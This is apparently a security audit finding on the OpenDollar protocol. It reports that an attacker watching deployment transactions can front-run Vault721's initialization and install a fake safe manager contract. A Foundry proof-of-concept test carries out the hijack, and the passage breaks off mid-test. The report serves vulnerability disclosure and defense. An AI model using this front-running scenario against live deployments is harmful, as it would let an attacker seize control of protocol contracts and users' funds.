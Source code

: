 Hackers can track all team wallets used in testing, and deploying into testnets. and if the team used one of these wallets to deploy to mainnet, this attack could occur.

If the team decided to distribute governance tokens before deploying, then changing it may be kind of hard. In addition to the waste of money used in wrong deploying.

NOTE: This can be made to `Vault721::initializeRenderer` also, but it's not a problem, since it just previews the NFT as an image.

### Proof of Concept
I made a file `test/Attack.t.sol` to simulate the attack scenario, here is the scenario that can occur when deploying the code to mainnet.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.19;

import {Test, console} from "forge-std/Test.sol";
import "@script/Contracts.s.sol";

contract Attack is Contracts, Test {
    address public Attacker = makeAddr("attacker");

    function testAttacking() public {
        // An Attacker is tracking all OpenDollar team wallets TXs...
        safeEngine = new SAFEEngine(
            ISAFEEngine.SAFEEngineParams({
                safeDebtCeiling: 2_000_000 * (10 ** 18), // 2M COINs (WAD)
                globalDebtCeiling: 25_000_000 * (10 ** 45) // 25M COINs (RAD)
            })
        );

        // oracleRelayer = new OracleRelayer(address(safeEngine), systemCoinOracle, _oracleRelayerParams);
        // [rest of deployments before deploying `vault721`]

        // The Attacker (MEV) Get that the vault contract is deployed
        vault721 = new Vault721(address(odGovernor));

        // The Attacker will set safeManager address before list of deployments
        vm.startPrank(Attacker);
        AttackContract fakeSafeManager = new AttackContract(
            address(safeEngine),
            address(vault721)
        );
        fakeSafeManager.attack(address(vault721));
        vm.stopPrank();
        // ------------

        safeManager = new ODSafeManager(address(safeEngine), address(vault721));
        // nftRenderer = new NFTRenderer(address(vault721), address(oracleRelayer), address(taxCollector), address(collateralJoinFactory));
        // [rest of deploying after deploying `vault721`]

        console.log(
            "Real SafeManager Address:",
            address(vault721.safeManager())
        ); // 0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a
        console.log("Expected SafeManager Address:", address(safeManager)); // 0xF62849F9A0B5Bf2913b396098F7c7019b51A820a

        assertEq(address(vault721.safeManager()), address(fakeSafeManager)); // 0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a

```